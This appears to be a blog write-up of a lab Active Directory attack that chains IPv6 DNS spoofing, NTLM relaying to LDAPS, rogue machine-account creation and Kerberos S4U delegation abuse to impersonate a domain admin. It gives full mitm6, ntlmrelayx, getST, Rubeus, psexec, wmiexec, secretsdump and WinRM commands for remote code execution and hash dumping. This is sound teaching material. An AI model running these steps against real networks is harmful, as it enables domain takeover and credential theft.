A computer takeover attack through some funky relaying and abuse of Kerberos.

# Overview

I'm a huge fan of [dirkjan](https://dirkjanm.io/)'s recent discoveries with Kerberos, and his articles are awesome. It did however take me a while to understand what actually goes on in the Kerberos delegation attack, so I've made an attempt to explain the details of it and how to execute the attack. I also have done a few experiments on what to do with it once it has been successfully executed. As this is all based on his article [The worst of both worlds: Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/), I recommend reading that first.

## What do we achieve from this attack?

- Remote code execution on a domain joined computer
- Local privilege escalation on said host, with access as SYSTEM
- Access to a domain machine account
  - Can be used for domain enumeration (Bloodhound, PingCastle, Powerview, etc.)

# How does it work?

When Windows configured for DHCP boots, it looks for DHCP configuration, and then proxy configuration using WPAD. That way, when the victim computer boots and starts looking for proxy config, the machine account tries to authenticate to us.

0. We set up a man-in-the-middle DHCP server on IPv6 and serve a DNS IPv6 configuration that points to our rogue DNS IPv6 server.

1. When the victim uses WPAD to look for a proxy configuration file over DNS, we let it connect to our fake proxy server and then prompt for authentication using a `407 Authentication Required` request.

2. We capture and relay the (encrypted) credentials of the machine account to LDAPS on the domain controller (DC).

3. We ask the DC over LDAPS to create a new machine account. Active Directory allows any user account, including machine accounts to add 10 machine accounts by default.

4. We now have credentials for a machine account. The reason we create a machine account is that we need access to an account with a Service Principal Name (SPN).

5. We now ask the DC to configure resource-based constrained delegation for this new machine account on the victim computer object. For example: the machine account `WS02$` sets the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the computer object `WS02` to allow the newly created machine account to impersonate users on it.

6. We request a service ticket using the machine account that was created, where we impersonate a user that has local admin access to our target computer.

7. We use the service ticket to access the computer with local admin privileges. The ticket with these privileges is only valid on the target box.

# Prerequisites

- Install [impacket](https://github.com/SecureAuthCorp/impacket) and [mitm6](https://github.com/fox-it/mitm6)
- Install the required kerberos packages
  - `apt install krb5-user cifs-utils`
- `pip install service-identity`

# Requirements

- A Linux host on the network. The attack is hard to execute without a host we have full control over.
- Domain users must be allowed to create machine accounts in the domain.
- Target computer(s) must have proxy configured, with internal IPs set up as exceptions
- To replicate it in our lab we will need LDAP over TLS (LDAPS). See [installation guide](https://gist.github.com/magnetikonline/0ccdabfec58eb1929c997d22e7341e45) for setting up certificates on domain controller.
  - Active Directory Certificate Services (ADCS) must be running on the DC with a valid certificate installed. This enables LDAP over TLS.
- IPv6 must be enabled in the network

We can replicate the attack by rebooting Windows for every try, assuming a lab scenario where we control the target. In a real scenario we would have to force a reboot somehow, or show up early and wait for people to turn on their computers. A disconnect of the network card should supposedly work as well, but this is not entirely consistent in my experience.

# Setup

## Components of the attack

- `lab.local` - AD Domain Name
- `dc01.lab.local` - AD Domain Controller
- `ws02.lab.local` - Target machine
- `192.168.0.142` - Attacker host IP
- `WS02$` - Target machine's machine account
  - Dollar sign after the name signifies that it's a machine account
- `lkys` - Domain Administrator

## mitm6

Start up the server, specify hostname we want to target and domain.

    mitm6 -hw ws02 -d lab.local --ignore-nofqnd



## ntlmrelayx

Start ntlmrelayx, specify domain controller, delegation attack, disable the SMB server and set the name for a malicious WPAD file that will be generated and served to the target.

Create a machine account is supposedly not allowed over LDAP, it needs LDAP over TLS (LDAPS). More on this later.

    ntlmrelayx.py -t ldaps://dc01.lab.local --delegate-access --no-smb-server -wh attacker-wpad



# Attack

The only real way to trigger an IPv6 WPAD request is through a user login after a reboot, or reconnects to the network. Once a user is logged in, things should start happening in mitm6 and ntlmrelayx.

What happens first is that the target computer starts performing name resolution to find a proxy server over IPv6. What we then to is a man in the middle attack for DNS on IPv6, where we say "we have the proxy we are looking for!".



ntlmrelayx captures the incoming request and serves a proxy configuration which ask the target for authentication. The target promptly answers with the machine account's NTLMv2 hash (NetNTLMv2). ntlmrelayx then relays the captured credentials to LDAP on the domain controller, uses that to create a new machine account, print the account's name and password and modifies the delegation rights of it.

*We make a note of the username and password for later so it doesn't disappear*



Once the attack has been performed, the machine account should show up as a computer in the domain



We can see with RSAT that the `LUJCDPUQ$` machine account is allowed to delegate on the computer object `WS02`. This can be seen in the `PrincipalsAllowedToDelegateToAccount` attribute on the computer object. We can use RSAT to query this

    Get-ADComputer WS02 -Properties PrincipalsAllowedToDelegateToAccount

We can check with [Powermad](https://github.com/Kevin-Robertson/Powermad) who added the machine account. As we can see, the machine account `WS02$` added it. It is also the machine account `WS02$` that adds the delegation privilege to the computer object `WS02`. I execute the below command from a non-domain joined host so I had to specify domain and a credential.

    Get-MachineAccountCreator -Domain lab.local -DomainController dc01.lab.local -Credential lkys



## Request Kerberos ticket

We now request a Kerberos service ticket (TGS) for the `cifs` SPN  for the machine account we created, using impersonation as a user `lkys` that is member of the`Domain Admins` group. That user naturally has local administrator access to all computers in the domain. When prompted for password,we input the password that was set for the machine account `LUJCDPUQ$` when we performed the relaying attack.

*Common Internet File System (CIFS) is a network filesystem protocol used for providing shared access to files and printers between machines on the network.*

    getST.py -spn cifs/ws02.lab.local lab.local/ULRRDUA\$ -impersonate lkys



Now we should be able to use the `lkys.ccache` cached ticket to authenticate to the target machine.

We import the ticket from file into the Kerberos cache on our attacker box.

    export KRB5CCNAME=lkys.ccache



## Verifying access

Before we get into command execution, we verify that we have read access to the c$ share. This is a common way to check if we have administrator privileges on a remote host.

We authenticate to SMB on `WS02` with the ticket using `smbclient` with the `-k` parameter that indicates we want to use a Kerberos ticket and **not** NTLM authentication with username and password.

    smbclient -k //ws02.lab.local/c$

Or with `smbclient.py` We don't need to specify the full SPN, but I do it here to show you how the full SPN looks. You will also see here that it uses the TGS from the cache.

    smbclient.py -k lab.local/lkys@ws02.lab.local -debug -no-pass



## Command execution

We can get interactive remote command execution using `psexec.py`. Note that we can only get command execution as the SYSTEM user with PSexec and is it starts a service remotely as that user. 

    psexec.py -k ws02.lab.local -debug -no-pass



We can also get it with `wmiexec.py`. With this, we actually get command execution as the domain admin user `lkys`. Note that it has to change the  SPN. More about this in the sections below.



If we want to dump the hashes of the target, we can use `secretsdump.py`

    secretsdump.py -k ws02.lab.local -no-pass



# Further exploration of the attack

Now we have performed the attack and have gained what we want to achieve; full administrator level privileges on a remote host, acquired from nothing but network access. This is where I go past what @dirkjanm detailed in his article and into research of my own. If you want to have a deeper understanding of the attack and what's possible to do with it, keep reading.

## A quick look at WMI execution

Let's take a closer look at what goes on during command execution with `wmiexec.py` by turning on the `-debug` parameter.

    wmiexec.py -k -no-pass -debug ws02.lab.local



Hold on a sec! The `cifs` SPN is only valid for access to file shares isn't it? So how come we can execute WMI queries all of a sudden? Apparently, the `sname` field is not signed or protected by any means, so we can basically change it to the SPN we want. You could look at this as a feature or a bug. Either way, this automatic switch has been implemented in Impacket and we can see this behavior clearly in `wmiexec.py`.

Notice how it changes the SPN from CIFs to HOST in an attempt to get a valid SPN for WMI. It doesn't even have to request a new ticket, it just changes the name and gets a valid ticket.

Check Secureauth's article [Kerberos Delegation, SPNs and More](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more) for more information about this.

## Executing the attack from Windows

Now, so far we've only used Linux to perform the post attack operations, but there is a lot to learn from doing this from Windows. I'm doing this from a non-domain joined Windows machine on the network.

### Requesting ticket

You can request the service ticket from Windows with [Rubeus](https://github.com/GhostPack/Rubeus). Now earlier when we executed the attack we got a username and a password for a new machine account in the domain. We have to hash the machine account password to RC4 first. Note that we have to escape the `'` characters from the password as well.

    .\Rubeus.exe hash /password:ol@19`7+jq''''5)&



We then use the machine account to execute the two Kerberos concepts `S4U2SELF` + `S4U2Proxy` in addition to injecting the ticket into the cache on our attacker Windows box. It is all done in one operation using the `/ptt` parameter. Thanks [harmj0y](https://blog.harmj0y.net/)! We specify `s4u`, as the operations we want to perform, with the impersonating user `lkys` and the `cifs` ticket we want for `ws02.lab.local`

    .\Rubeus.exe s4u /user:LUJCDPUQ$ /impersonateuser:lkys /msdsspn:"cifs/ws02.lab.local" /ptt /rc4:3116C16787230147050F6835AFBF5EDF



1. The first part is building AS-REQ with pre-authentication for the machine account. We can do this since we have provided the hash of the account.
2. We then request a TGT for the machine account from the domain controller.
3. We then use that TGT to perform `S4U2Self`, and acquire an impersonated service ticket for the DA `lkys@lab.local` to our machine account. It can be quite confusing because here we specify the SPN for our machine account, where as in a regular domain scenario we would normally provide the SPN for a service.
4. We now have "proof" in the form of a service ticket that we are the machine account. We then execute `S4U2Proxy` to the remote service, which in this case is the victim machine. So we impersonate `lkys` to the target SPN `cifs/ws02.lab.local` with `s4u2proxy` and get a valid service ticket which allows us to impersonate the domain domain `lkys` on the target machine.

### Explanation of the above

What we are really doing here is abusing resource-based constrained delegation. You can read about this concept in the extensive article [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html).

Quickly explained though with the figure below as reference. In our example:
- `Service A` = the machine account `LUJCDPUQ$` which we created
- Service B = the computer object `WS02`

We are enabling resource-based constrained delegation on that computer object using the credentials of the machine accounts `WS02$`. Essentially we are giving the the privilege to impersonate the user `lkys` on the `WS02` computer object.

Then we have the `S4u2Proxy` request, as explained in step 4 above.

### Verifying access

The service ticket for `cifs` on the target as the domain admin has been imported into the cache on our box, and can be displayed with `klist`. We see taht the ticket is valid for the client `lkys@lab.local` on the `cifs` sname on the computer `ws02.lab.local`.



We now have read access on the target host, as this ticket is used for authentication.



*Note that for getting command execution on the target through psexec or wmi, we need local admin on the host we are on. Without local admin we will not be able to perform psexec, wmiexec, etc. That's why it's a good idea to do this from your attacking host.*

### Command execution

We can perform psexec locally from Windows since it works with `CIFS` tickets

`.\PsExec64.exe \\ws02.lab.local cmd`



### WinRM

Another possible way of remote code execution with a service ticket is the native WinRM. We can do this with Rubeus similarly to above before, but this time request another ticket with an additional service specified. We are going to specify that we want a `http` ticket, which is required for WinRM.

    .\Rubeus.exe s4u /user:LUJCDPUQ$ /impersonateuser:lkys /msdsspn:"cifs/ws02.lab.local" /ptt /rc4:3116C16787230147050F6835AFBF5EDF /altservice:http

We now have the `http` service ticket impersonating the domain admin `lkys` on `WS02` imported.

And we can start a remote session on `WS02`

    Enter-PSSession -ComputerName ws02.lab.local



Inside the session we can see the TGS we used to authenticate with.



## Further research

### RDP

So, what if we are somehow blocked from getting command execution using PsExec, WinRM and similar? If we imagine that RDP is the only way we can get remote access it's worth looking into whether it is possible to pass a service ticket to RDP. If this is the case, it could mean there are ways of getting command execution on hosts through a service ticket without the requirement of being local administrator on the target host.

However, we can't see any specific parameter in RDP for passing a ticket, so this might get tricky. The `restrictedadmin` feature is of interest though.

